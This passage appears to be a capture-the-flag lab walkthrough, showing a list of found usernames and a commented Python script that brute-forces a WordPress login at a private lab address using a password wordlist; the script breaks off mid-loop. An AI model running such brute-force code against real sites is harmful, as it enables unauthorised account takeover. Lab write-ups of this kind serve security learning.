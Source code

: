 

#### Video usernames

<iframe width="560" height="315" src="https://www.youtube.com/embed/RWzt33r-1ao?si=wdK4rvxxzY5njBgy" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

- Inspecting the valid_usernames.txt

```bash linenums="1" hl_lines="2 3 4"
ubuntu@hcoco1:~$ cat valid_usernames.txt
ELLIOT
Elliot
elliot

```
> The usernames are: ELLIOT, Elliot, and elliot

- Run the script to get the correct password

>The script attempts to brute-force the WordPress login by trying each combination of known valid usernames and potential passwords. It uses the requests library to send HTTP POST requests and checks the response to determine if the login attempt was successful or not. If a successful login is found, the script prints the successful username and password combination and stops further attempts for that username


```python linenums="1" 
import requests  # Import the requests library for making HTTP requests

# Define the target URL for the WordPress login page
url = "http://192.168.1.226/wp-login.php"

# Define a list of known valid usernames
valid_usernames = ["ELLIOT", "Elliot", "elliot"]

# Read the dictionary file containing potential passwords
with open("fsocity_sorted_unique.dic", "r") as file:
    passwords = [line.strip() for line in file]  # Strip any leading/trailing whitespace from each line and store in a list

# Function to perform the login attempt
def attempt_login(session, username, password):
    # Create a dictionary to hold the form data for the login attempt
    payload = {
        'log': username,          # The username
        'pwd': password,          # The password
        'wp-submit': 'Log In',    # The value of the submit button
        'redirect_to': '/wp-admin/',  # The URL to redirect to after login
        'testcookie': '1'         # A value indicating whether cookies are enabled
    }
    # Send a POST request to the login URL with the form data
    response = session.post(url, data=payload)
    return response  # Return the response object

# Start a new session to maintain cookies and certain parameters across requests
session = requests.Session()

# Iterate over each valid username and password combination
for username in valid_usernames:
    for password in passwords:
        # Attempt to log in with the current username and password
        response = attempt_login(session, username, password)
        # Check if the response text does not contain the message indicating an incorrect password for the username
        if "The password you entered for the username" not in response.text:
```